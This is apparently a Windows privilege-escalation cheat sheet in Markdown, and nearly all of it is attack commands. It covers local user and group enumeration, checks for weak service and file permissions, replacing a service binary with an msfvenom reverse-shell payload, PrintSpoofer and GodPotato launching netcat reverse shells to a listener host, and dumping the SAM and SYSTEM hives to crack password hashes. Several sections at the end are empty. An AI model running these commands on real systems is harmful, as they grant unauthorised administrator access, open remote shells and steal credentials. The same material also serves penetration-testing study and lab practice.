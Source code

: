


###

```
whoami /groups
net accounts
net user
net user <USERNAME>
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <GROUP-NAME>
```

## Check for Credentials

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

```
icacls FILE
```

###### get env variables

```
Get-ChildItem
Env:$env:PATH
```

## File permissions



# Services 

## Manage Service
```
Get-Service
Get-Service | Select-Object Displayname,Status,ServiceName,Can*
sc.exe query
sc.exe query | select-string service_name

# Binary Path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}


sc.exe stop <SERVICE>
sc.exe start <SERVICE>
sc.exe qc <SERVICE>
sc.exe delete <SERVICE>

# Check permissions
sc.exe sdshow <SERVICE> 

# Change service configuration
sc.exe config <SERVICE> binPath="C:\Users\Quickemu\Downloads\malicious.exe"

# Add New Service
sc.exe create <SERVICE-NAME> binPath="<PATH-TO-EXECUTABLE>"
```

## Weak Permissins on Service

 Use the `accesschk64' program to check if we have privileges over that process.

 Remember: Services are processes and processes require .exe


| Permission            | Description                                              |
|-----------------------|----------------------------------------------------------|
| SERVICE_ALL_ACCESS    | Can do anything.                                         |
| SERVICE_CHANGE_CONFIG | Can reconfigure the service binary.                      |
| WRITE DAC             | Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG. |
| WRITE_OWNER           | Can become owner, reconfigure permissions.               |
| GENERIC_WRITE         | Inherits SERVICE_CHANGE_CONFIG                           |
| GENERIC_ALL           | Inherits SERVICE_CHANGE

```
# List all services and the permissions each user level has on them.
accesschk.exe /accepteula -ucqv *

# List permissions for a specific service:
accesschk.exe /accepteula -ucqv Spooler

# List permissions for a specific directory:
accesschk.exe /accepteula -dqv "C:\Users"

# Find all weak folder:
accesschk.exe /accepteula -uwdqs Users C:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\

# Find all weak files::
accesschk.exe /accepteula -uwqs Users C:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" C:\*.*


# List services which the "Authenticated Users" user group have permissions over
# (remember to check other user groups you are a member of).
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

## Weak Permission on Service Binary
```
# Get binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Check configuration of binary
# (F) = Full control
icacls.exe .\simpleService.exe

# If we have (F), we can override it
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe

# Overwrite
cp .\simpleService.exe .\simpleService.exe.bkp
cp .\malicious.exe .\simpleService.exe

# Restart
sc.exe stop SimpleService
sc.exe start SimpleService
```

## Unquoted Service Path
```
C:\Users\Quickemu\Downloads\Example Directory\Another.exe
C:\Users\Quickemu\Downloads\Example.exe

```


## Permissions

```
# SeImpersonatePrivilege
./PrintSpoofer64.exe -c "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
./GodPotato-NET2.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"

# SeBackupPrivilege
## Copy SAM and SYSTEM and crack
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```


```

```

## Services

```
Get-Service

# Display specific properties for each service
Get-Service | Select-Object Displayname,Status,ServiceName,Can*

#  Get binary path for each service that is currently running
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

